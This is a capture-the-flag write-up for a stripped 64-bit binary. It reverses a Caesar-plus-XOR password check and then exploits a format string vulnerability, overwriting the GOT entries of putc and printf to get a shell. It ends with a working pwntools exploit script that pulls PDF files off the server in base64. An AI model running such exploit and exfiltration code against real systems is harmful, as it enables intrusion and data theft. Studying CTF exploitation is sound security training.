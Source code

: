 ## CTF Challenge Writeup

### Step 1: Run `file` and `checksec` on the given binary

![image](includes/images/file.png)

On running `file` on the executable we infer that it is a 64-bit binary, dynamically linked and stripped. Since it is stripped, we need the help of a decompiler to analyze it.

![image](includes/images/checksec.png)

On running `checksec` we infer that it has 
- canaries and NX are enabled (NX being enabled means we can't use a shellcode).
- partial relro and pie disabled.
This hints that there might be a format string vulnerablity.

### Step 2: Run the executable and decompile it using Ghidra

![image](includes/images/run.png)

We see that the executable asks for a password and gives a 4 sec window to enter the password. 

![image](includes/images/check_fsv.png)

We check whether the password field has a format string vulnerability. But it doesn't.

![image](includes/images/decompile_entry.png)

We decompile it with `Ghidra`. Since the executable is stripped, `Ghidra` shows the entry function. The first parameter of the `__libc_start_main` function is the main function. We can rename it as such.

![image](includes/images/main.png)

The main function has 3 functions `FUN_00401216()`, `FUN_00401259()`, `FUN_00401448()` (function `FUN_00401230()` is a callback to handle the alarm() and does nothing interesting)

![image](includes/images/print.png)

`FUN_00401216()` just prints.

![image](includes/images/pass.png)

`FUN_00401259()` asks for the password. On first look we can say that this function obfuscates the input password and compares it to `cLVQjFMjcFDGQ`. Rename as `pass()`

![image](includes/images/init.png)

`FUN_00401448()` is executed after the password is verified and this function does something interesting. This function has a format string vulnerability just below `printf("hello");` and then there is a system function that only lists the files in the server. Rename as `init()`

Based on these observations we can decide our course of action
- first, we reverse the password in the `pass()` function.
- second, we use the format string vulnerability to overwrite some libc function with the address of the `init()` function so that it loops arround and exploit the format string vuln as many times as required. We choose the `putc()` function to overwrite and when the function loops back, we use format string vuln to overwrite the the GOT table entry of `printf()` with system so that in the next looping, we can enter `/bin/sh`. This converts the `printf(s)` to essentially work like `system("/bin/sh")`.


### Step 3: Reversing the password

We shall rename few variables to analyze the `pass()` function

![image](includes/images/pass_rename.png)


__Note__ : `input[10]` in the decompiled code and `fgets()` that writes upto 32 bytes we might think that there is a bof vulnerability but from the listing window we confirm that bof is not a possibility as the `input` is placed 0x38 bytes below the rbp as shown below.
![image](includes/images/note.png)


We notice that some kind of ascii manipulation is done on each character of the input password string and then xor-ed against 0x35 (=53) to get another string which is compared to `cLVQjFMjcFDGQ`.

![image](includes/images/peculiar.png)

Observe this peculiar line. Generally, modulo (%) operation when decompiled produces a code similar to this. A rule of thumb is that `(x / divisor) * -divisor` hints at a modulo operation involved.
Thus this line is essentially `iVar1 % 26`

On closer analysis the ascii manipulation is actually a Caesar cipher with shift = 10.

![image](includes/images/shift_and_x.png)


So the input is first Caesar ciphered and then xor-ed character by character. 
We can reverse the xor using `xor()` from pwntools.

![image](includes/images/xor_reverse.png)

We can reverse the Caesar cipher using this function. Passing this `Vycd_sx_Vsqrd` to the function we get the password "Lost_in_Light"

![image](includes/images/caesar_cipher_reverse.png)

### Step 4: Overwriting the GOT table entry of putc to init() and overwriting the GOT table entry of printf with value at the GOT address of system

To use the format string vulnerablity we need
- the offset at which the string that we control is present
- the GOT address of putc and printf() and init() address as well as value at the GOT address of system().

the offset can be found using GDB (use `handle SIGALRM nostop noprint` to ignore the SIGALARM) 

![image](includes/images/offset.png)

the offset is found to be 6 as the `ABCD`(0x44434241) appears at the 6 the position.

Using Ghidra we get the GOT address of putc = `0x00404048`and printf = `0x00404020` and init() function = `0x00401448` . Value at the GOT address of system = `0x00401060`.

![image](includes/images/system_printf.png)

![image](includes/images/putc.png)

![image](includes/images/init_addr.png)


### Step 5: Crafting the exploit

Also the presence of `system("ls *.pdf")` in `init()` suggests that the flag we are looking is in a pdf format. We are required to read the pdf from the server. In order to read we'll convert the pdfs to base64, receive the bytes, decode it from base64 and write it as local files.

So our final exploit looks like 

``` python
from pwn import *
context.binary = ELF("path/to/binary")
context.log_level = "debug"

OFFSET = 6

# from reversing pass()
password = b"Lost_in_Light"

# from ghidra
system_plt = 0x401060
init_addr = 0x401448
putc_got = 0x404048
printf_got = 0x404020

# built in pwntools functions to overwrite GOT entries
fmt1 = fmtstr_payload(offset=OFFSET, writes={putc_got: init_addr}, write_size="short")
fmt2 = fmtstr_payload(offset=OFFSET, writes={printf_got: system_plt}, write_size="short")

p = process("path/to/binary")
# For remote
# p = remote(host,port)

p.sendlineafter(b">>> ", password)
p.sendlineafter(b">>> ", fmt1)
p.sendlineafter(b">>> ", fmt2)

p.sendline(b"/bin/sh")

p.clean()

p.sendline("ls")

# receiving the files as base64 and decoding back to pdf to read the pdfs
files = p.clean().decode().strip().split("\n")
for file in files:
  p.sendline(f"base64 {file}".encode())
  encoded_file = p.clean().decode()
  with open(file, "wb") as f:
      f.write(b64d(encoded_file))
```
We flag is present in the whispers_in_the_dark.pdf.

